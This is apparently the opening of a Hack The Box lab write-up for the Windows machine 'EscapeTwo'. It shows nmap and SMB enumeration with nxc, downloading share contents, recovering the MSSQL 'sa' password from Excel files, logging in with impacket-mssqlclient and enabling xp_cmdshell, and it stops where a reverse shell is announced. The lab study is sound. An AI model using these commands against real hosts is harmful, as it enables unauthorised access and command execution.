 
## Info  
  * IP: 10.10.11.51
  * OS: Windows
  * Difficulty: Easy
  * Initial credentials: `rose:KxEPkKe6R8su`

## Initial Scan

Let's start with an nmap scan to identify available services:
![Nmap Scan](/images/htb/machines/EscapeTwo/nmap.png "NMAP")

Our scan reveals the following key services:
- SMB (445)
- MSSQL Server (1433)
- Other standard Windows services

Let's add the target to our hosts file:
```
10.10.11.51 dc01.sequel.htb sequel.htb
```

## Enumeration

Enumerating the SMB shares using the provided credentials:

```
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares
```

![SMB Shares](/images/htb/machines/EscapeTwo/rose-shares.png)

We find an "Accounting Department" share that's accessible. Let's see what's inside:

```
nxc smb dc01.sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares -M spider_plus -o DOWNLOAD_ALL=True
```

In the share, we discover some Excel files. After unzipping and analyzing them, we find credentials for the 'sa' user for the MSSQL server.

## MSSQL Exploitation

With the 'sa' credentials in hand, we can now connect to the MSSQL server:

```
impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@dc01.sequel.htb
```

Once connected, we aim to enable xp_cmdshell to execute commands - `enable_xp_cmdshell`

![sa cmdshell](/images/htb/machines/EscapeTwo/sa-mssql-login.png)

Now that we can execute commands on the target machine, let's set up a reverse shell:
